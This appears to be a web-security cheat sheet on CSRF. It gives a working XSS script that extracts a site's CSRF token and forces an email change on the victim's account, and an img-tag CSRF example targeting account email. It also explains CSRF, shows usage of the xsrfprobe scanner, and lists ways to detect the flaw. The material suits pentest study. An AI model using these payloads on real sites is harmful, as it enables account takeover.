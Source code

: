 ## From XSS to CSRF by forcing user to change his email on a website

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/email',true);
req.send();
function handleResponse() {
	var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
	var changeReq = new XMLHttpRequest();
	changeReq.open('post', '/email/change-email', true);
	changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

# CSRF
https://security.stackexchange.com/questions/138987/difference-between-xss-and-csrf  

Cross Site Request Forgery, known as CSRF occurs when a user visits a page on a site, that performs an action on a different site. For instance, let's say a user clicks a link to a website created by a hacker, on the website would be an html tag such as

		<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net"> 

which would change the account email on the vulnerable website to "pwned@evil-user.net".  CSRF works because it's the victim making the request not the site, so all the site sees is a normal user making a normal request.

Once again, there is a nice automated scanner, which tests if a site is vulnerable to CSRF. this tool is known as `xsrfprobe` and can be install via pip using:

		pip3 install xsrfprobe.

- The syntax for the command is

		xsrfprobe -u <url>/<endpoint>. Let's run this against our vulnerable site.

## CSRF Detection
- Check the headers (request/response)
- Look for cookies, token, referal fields etc...
- Try to remove them and see how it changes the response from the server.
- Is the `csrf` token duplicated between the cookie and the header ? 

## CSRF Payloads
### Payload template
Create a web page and store that paylod inside of it. Every user visiting the page will execute the form and make the request to the page provided by the `action` param.
